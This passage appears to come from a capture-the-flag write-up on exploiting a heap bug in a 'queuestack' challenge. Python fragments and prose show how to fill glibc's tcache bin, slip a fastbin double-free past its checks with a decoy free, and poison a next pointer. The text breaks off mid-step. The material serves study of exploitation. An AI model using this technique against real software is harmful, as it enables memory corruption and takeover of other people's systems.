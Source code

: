 ~~~python
        pushleft(4, ("A"*0x40))
    #calculate where tail for queuestack 3 is:
    tail_addr = heap_base + 0x490 #addr that we overwrite tail + head with
    tail_addr = tail_addr >> 32 #remember that ints are only 4 bytes long!
    print("tail addr: " + hex(tail_addr))
    predicted_tail = tail_addr % 6
    print("predicted tail: " + str(predicted_tail))
    #move the tail for queue stack 3 down to 3:
    #first move it down to 0:
    for i in range(predicted_tail):
        popright(3)
    #then alloc 4 more chunks:
    for i in range(4):
        pushright(3, "AAAAAAA")
    #now move the head for queuestack 4 down to 3:
    for i in range(3) :
        pushleft(4, "DDDDDD")
~~~
Glibc added some new mitigations in glibc version 2.29 that prevent us from doing a double-free on freed chunks that are in the tcache bin. However, each tcache bin can only hold
7 chunks at most. After a tcache bin is filled up, any additional chunks that would go to that bin would go to either the fastbin or the unsorted bin. In our case, those chunks would go to the fastbin.
The fastbin doesn't have as robust protections against double-free attacks. However, if we free a fastbin chunk back-to-back, glibc will still detect it. It won't detect the double-free if we free
a different chunk before freeing the chunk again. So, prior to setting up queuestack 4 and queuestack 3 to do the double-free, let's allocate 8 chunks in queuestack 1 and queuestack 2.
7 to fill up the tcache bin, and 1 so that glibc won't detect our double free.
~~~python
    #first build a base to fill up tcache:
    for i in range(6) :
        pushright(1, "AAAAAA")
    pushright(2, "AAAAAA")
    pushright(2, "decoyaa")
~~~python
Right before executing the double-free, we'll free all 7 chunks to fill up the tcache bin for 0x20 long chunks.
~~~
    #now fill up tcache:
    for i in range(6):
        popright(1)
    popright(2)
~~~
Now we'll execute the double-free.
~~~python
    #now free the last chunk we alloced:
    popright(3)
    #free a decoy chunk so glibc doesn't get suspicious:
    popright(2)
    #free the last chunk again:
    popleft(4)
~~~
Now to actually get a pointer to prethread_tcache_struct, we'll need to re-gain access to the chunk that we double-freed and write the address of prethread_tcache_struct to its `next` pointer(first 8 bytes).
There's currently 7 chunks ahead of the chunk we double-freed in the tcache bin, so alloc 7 chunks to get them off the free list:
~~~python
    #get our free chunk to the top of the free list::
    for i in range(6) :
        pushright(1, "AAAAAA")
    pushright(2, "AAAAAA")
~~~
The chunk we double-freed is at the top of the free list. We'll write the address of prethread_tcache_struct to it to link prethread_tcache_struct to the free list. Then we'll allocate chunks until